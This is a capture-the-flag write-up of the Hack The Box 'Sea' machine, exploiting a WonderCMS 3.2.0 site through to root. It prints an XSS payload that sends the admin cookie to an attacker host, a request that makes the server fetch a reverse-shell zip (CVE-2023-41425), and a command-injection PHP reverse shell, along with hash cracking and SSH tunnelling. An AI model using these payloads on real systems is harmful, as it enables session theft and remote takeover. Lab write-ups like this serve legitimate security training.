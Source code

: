 ```yaml
---
title: "Sea Hackthebox"
date: 2024-08-17
draft: false
tags : ["write-up", "htb"]

---
```


## User flag
### Recon

Firtsly, `sea.htb` is built from [wondercms](https://www.wondercms.com/). You can check it by enumerating the web or searching the string `velik71` appeared on the banner. 

Checking the `/themes/bike/wcms-modules.json`, I found the version of this website is `3.2.0`. It has a [CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425) that allows an attacker to a remote attacker to execute arbitrary code via a crafted script uploaded to the installModule component.

I also found a `contact.php` page which allows us to send infomation including a malicous link to the admin.

### Exploitation
I use the `contact.php` page to send a link to the admin to steal the cookie. 

```
http://sea.htb/index.php?page="></form><script>fetch('http://<ip>:<port>?cookie='+document.cookie)</script><form action="
```
Use this cookie to access the admin page


Use the `installModule` to upload a reverse shell to the server and access the server as `www-data`.
```
http://sea.htb/?installModule=http://10.10.14.64:9000/reverseshell.zip&directoryName=essence&type=themes&token=<token>
```
![alt text](/posts/sea-htb/image.png)

Enumerate current directory, I found a database.js file in `/var/www/sea/data` which contains the Bcrypt hash of password. Use `john` to crack it and it is password of `amay`.
![alt text](/posts/sea-htb/image-1.png)

Get the user flag at `/home/amay/user.txt`


## Root flag

List listened ports opened:
```bash
netstat -tulnp | grep LISTEN
```

The local host is running a web on port 8080. I use ssh tunnel to access it. 

```bash
ssh -L 8081:127.0.0.1:8080 amay@10.10.11.28
```
![alt text](/posts/sea-htb/image-2.png)



The web is a *System Monitor* page. The page get the `log_file` parameter to read the file and filter the content. It may uses shell script with php system function like `system` or `passthru`,... to read the file. To get flag, I modified the `log_file` param to shell script to read the root flag and send it to my server.

```bash
; php -r '$sock=fsockopen("10.10.14.8",9000);`/bin/sh <&3 >&3 2>&3`;'
```
![alt text](/posts/sea-htb/image-3.png)


The shell last for a few seconds, so you can change `/bin/sh` to `cat /root/root.txt` to get the root flag.
![alt text](/posts/sea-htb/image-4.png)

